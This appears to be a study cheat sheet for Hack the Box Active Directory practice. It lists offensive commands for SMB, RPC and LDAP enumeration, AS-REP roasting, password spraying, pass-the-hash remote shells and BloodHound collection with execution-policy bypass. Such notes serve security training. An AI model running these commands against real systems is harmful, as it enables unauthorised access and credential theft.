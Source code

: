 
Active Directory Machines for Practice

Hack the Box (HTB)
The following Active Directory machines can be found on the HTB platform. I recommand that you attempt them when you are stuck, 
watch ippsec's videos on them

    monteverde
    cascade
    traversex
    fuse
    intelligence
    remote
    resolute
    sizzle
    multimaster
    sauna
    forest
    object
    active
    

Enumeration


SMB

- crackmapexec smb <IP> --shares
- crackmapexec smb <IP> -u '' -p '' --shares
- crackmapexec smb <IP> -u '' --shares
- crackmapexec smb <IP> --pass-pol
- crackmapexec smb --users
- smbmap -H <IP>
- smbclient -L //<IP>
- smbclient --no-pass //<IP>/<share name> -U''


Crackmapexec

- crackmapexec smb <IP>
- crackmapexec smb <IP> --shares
- crackmapexec smb <IP> --pass-pol
- crackmapexec smb <IP> --users
- crackmapexec smb <IP> -u ' ' -p ' ' --shares
- crackmapexec smb <IP> -u ' ' --shares

RPC
	
- RPC Null Authentication: rpcclient -U '' <IP>
- RPC Null Authentication with no password: rpcclient -U '' <IP>
- If you are able to log in, run enumdomusers to list out users
- If you get a list of users, you can check their descriptions with the following command: querydispinfo


LDAP

git clone windapsearch by ropnop if you don’t already have it
- python [windapsearch.py](http://windapsearch.py) -U --full --dc-ip <IP>
- nmap -n -sV --script "ldap* and not brute" -p 389 <IP>
- ./windapsearch.py -d hb.local --dc-ip <IP> -u ""
- ./windapsearch.py -d hb.local --dc-ip <IP> -- "objectclass=*"
- ldapsearch -h <IP> -x
- ldapsearch -h <IP> -x -s base namingcontexts


SMTP
- nmap -v --script="smtp*" -p25,110,143,465,587,993,995 <IP>
- nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 <IP>
- sudo perl smtp-user-enum.pl -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t <IP>


Do you have valid username only?
	
If you have only users names, you can try an ASREProasting attack to see if a user has pre authentication disabled.
	- GetNPUsers.py -usersfile <username file> -outputfile asreproast -dc-ip <IP> dictionary.csl/ 
	- GetNPUsers.py domain/guest -dc-ip <IP> -format john 

You can also use the usernames as the password, sometimes users can use their username as password
	- crackmapexec smb <IP> -u uname.txt -p uname.txt
	- crackmapexec smb <IP> -u uname.txt -p 'Password2'  --password spray
Alternatively, password spraying can be an option.


Do you have only password?
	Enumerate more to identify usernames
	-  ./kerbrute_linux_amd64 userenum --dc <IP> -d roast xato-net-10-million-usernames.txt --- for possible usernames


Gaining Shell
	
./evil-winrm.rb -i [DN/IP] -u [username] -p '[password]'
./evil-winrm.rb -i [DN/IP] -u [username] -H [HASH]
psexec.py -hashes [hash] [DN]/[username]@[IP]
smbexec.py -hashes [hash] [DN]/[username]@[IP]
wmiexec.py -hashes [hash] [DN]/[username]@[IP]
psexec.py [DN]/[username]:[password]@[IP]
smbexec.py [DN]/[username]:[password]@[IP]
wmiexec.py [DN]/[username]:[password]@[IP]
xfreerdp /u:[username] /p:[password] /v:[IP] 
xfreerdp /u:[username] /pth:[NT hash] /v:[IP]
pth-winexe -U [DN]/[username]%[hash] //[IP] cmd



Mount SMB Share
sudo mount -t cifs -o 'username=<username>,password=<password>' //<IP>/<Share you want to mount> /mnt/<folder to mount to>


AD Enumeration (Post Compromise)
Powerview
Quick Commands:
- Get-NetDomain
- Get-NetDomainController
- Get-DomainPolicy
- (Get-DomainPolicy)."system access"
- Get-NetUser | select <command> eg select cn, description
- Get-userProperty -Properties pwdlastset


Bloodhound
- Connect to the database by running: sudo neo4j console
- run bloodhound in new tab
- Transfer the SharpHound.ps1 script to the victim machine and invoke powershell using powershell -ep bypass
- Import the module: . .\SharpHound.ps1
- Collect the data: Invoke-BloodHound -CollectionMethod All -Domain SCRIPTKIDDIEHUB -ZipFileName tadi.zip
or use SharpHound.exe -c All

Transfer the zip file to your attacker machine and upload it to bloodhound where it will put it all in graphs
![image](https://user-images.githubusercontent.com/77746798/193925403-e4efc028-b139-456b-a291-60f3846f71ab.png)

  
  
